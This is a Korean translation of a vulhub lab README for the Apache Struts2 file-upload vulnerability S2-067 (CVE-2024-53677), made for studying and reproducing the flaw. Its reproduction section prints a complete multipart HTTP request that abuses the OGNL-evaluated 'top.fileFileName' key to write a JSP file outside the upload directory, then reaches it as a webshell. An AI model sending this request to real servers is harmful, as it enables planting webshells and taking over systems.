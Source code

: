# Struts2 파일 업로드 취약점 (CVE-2024-53677)

> 

[중국어 버전(Chinese version)](https://github.com/vulhub/vulhub/blob/master/struts2/s2-067/README.zh-cn.md)
[영어 버전(English version)](https://github.com/vulhub/vulhub/blob/master/struts2/s2-067/README.md)

Apache Struts2는 Java EE 웹 애플리케이션 개발을 위한 인기 있는 오픈 소스 웹 애플리케이션 프레임워크입니다. Java Servlet API를 기반으로 이를 확장하여, 개발자들이 모델–뷰–컨트롤러(MVC) 아키텍처를 손쉽게 적용할 수 있도록 도와줍니다. Struts2는 유지보수가 쉽고 확장 가능한 기업용(Enterprise) 웹 애플리케이션을 만들 수 있도록 다양한 태그와 유틸리티를 제공합니다.

S2-067은 불완전한 보완 조치로 인해 발생한 S2-066 취약점의 변종입니다. S2-066은 대소문자 구분 비교 문제로 인해 파일 이름 덮어쓰기와 디렉터리 탐색이 가능해던 반면, S2-067은 동일한 결과를 얻기 위해 다른 매커니즘을 악용합니다.

Struts2에서는 모든 파라미터 키가 전달 과정에서 OGNL 표현식으로 평가됩니다. 이 기능은 과거에도 OGNL 표현식 삽입을 통한 원격 코드 실행(RCE) 취약점으로 이어진 바 있습니다. Struts2는 이러한 RCE를 막기 위해 파라미터 키에 대한 엄격한 검증을 도입했지만, 여전히 표현식 평가 자체는 이루어지고 있습니다. S2-067은 이 표현식 평가 메커니즘을 다시 악용해 업로드 파일 이름을 덮어쓸 수 있게 만들고, 결국 디렉터리 탐색 문제로 이어지게 됩니다.

참고 문헌(References):

- <https://cwiki.apache.org/confluence/display/WW/s2-067>
- <https://y4tacker.github.io/2024/12/16/year/2024/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%80%BB%E8%BE%91%E7%BB%95%E8%BF%87-CVE-2024-53677-S2-067/>

## 환경 설정(Environment Setup)

다음 명령을 실행하여 Struts2 2.5.33 버전으로 웹 서버를 시작합니다.

```
docker compose up -d
```

환경이 실행된 후 `http://your-ip:8080`에 접속해서 간단한 파일 업로드 페이지에 접근합니다.

## 취약점 재현

S2-067 취약점을 재현하기 전에, 먼저 [S2-066](https://github.com/vulhub/vulhub/blob/master/struts2/s2-066/README.md)을 읽고 해당 취약점의 원리를 이해해야 합니다.

이 서버에서 대소문자 구분 문제는 이미 해결되었기 때문에, S2-066에서 사용했던 동일한 페이로드는 사용할 수 없습니다.

![Failed Upload](1.png)

filename 파라미터 키에 OGNL 표현식인 `top.fileFileName`을 사용하면, 업로드된 파일이 다시 `upload/` 디렉터리 밖으로 저장됩니다.

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Length: 335

------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="top.fileFileName"

../shell.jsp
------WebKitFormBoundaryl6ZFZPznNSPZOFJF--
```

익스플로잇에서 주의해야 할 핵심 요소는 다음과 같습니다.

- S2-066처럼 대소문자 구분을 이용하는 대신, 파라미터 키에서 OGNL 표현식 평가를 사용합니다.
- `top.fileFileName`이라는 파라미터 키는 OGNL 표현식으로 평가됩니다.
- 이 평가 과정을 통해 `../shell.jsp`와 같은 경로 탐색 페이로드로 파일 이름을 덮어쓸 수 있습니다.

![Successful Upload](2.png)

이제 JSP 파일이 제한된 업로드 디렉터리 밖에 업로드되었고, 실행할 수 있게 되었습니다.

![Webshell Execution](3.png)

`http://your-ip:8080/shell.jsp` 주소로 접속하면 웹쉘에 접근할 수 있습니다.

## Github 주소
- [Github Repository 주소](https://github.com/uneyung/kr-vulhub/tree/main/Apache/CVE-2024-53677)
- [Pull Request 주소](https://github.com/gunh0/kr-vulhub/pull/236)
